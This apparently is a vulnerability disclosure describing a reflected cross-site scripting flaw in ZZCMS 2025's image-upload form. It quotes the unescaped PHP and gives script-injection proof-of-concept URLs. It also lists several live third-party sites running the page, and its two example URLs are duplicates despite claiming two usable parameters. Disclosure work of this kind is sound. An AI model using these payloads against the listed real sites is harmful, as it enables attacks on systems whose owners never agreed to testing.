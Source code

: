 # **Cross-Site Scripting Vulnerability in ZZCMS uploadimg_form.php**





## Vendor Information



**Official Website:** http://www.zzcms.net/

**Source Code Download:** http://www.zzcms.net/download/zzcms2025.zip

**Affected Version:** ZZCMS 2025



## Vulnerability Analysis

**Note: Exploiting this vulnerability requires authentication. A user can simply register a personal account to trigger the issue.**

### Source Code Analysis

The vulnerability is located in the form submission operation of `/up/uploadimg_form.php`.

```php+HTML
<div style="display:block;" id="A_con1">
<form action="uploadimg.php" method="post" enctype="multipart/form-data" style="padding:10px" >

<input type="file" name="g_fu_image[]" /><input type="submit" name="Submit" value="提交" />
<input name="noshuiyin" type="hidden" id="noshuiyin" value="<?php echo @$_GET['noshuiyin']?>" />
<input name="imgid" type="hidden" id="imgid" value="<?php echo @$_GET['imgid']?>" />
</form>
</div>
```

In the code, the values of the GET parameters `noshuiyin` and `imgid` are directly output into the `value` attribute of hidden form fields without any escaping or filtering.

### Request Construction

Either of the two parameters can be used to exploit the vulnerability.

```
http://demo.com/up/uploadimg_form.php?imgid="><script>alert('XSS')</script>&noshuiyin=foo

#or

http://demo.com/up/uploadimg_form.php?imgid="><script>alert('XSS')</script>&noshuiyin=foo
```



### Vulnerability Verification

![image-20250225204446195](/assest/zzcms/xss-uploadimg_form/xss-1.png)



### Website Reference

**Note:** Authentication is required to trigger the vulnerability; users can simply register a personal account for testing purposes.

```
http://demo.zzcms.net/up/uploadimg_form.php
https://www.88zsw.com/up/uploadimg_form.php
http://818yyzs.com/up/uploadimg_form.php
http://bjp.zzcms.net/up/uploadimg_form.php
http://9.zzcms.net/up/uploadimg_form.php
http://hzp.zzcms.net/up/uploadimg_form.php
```















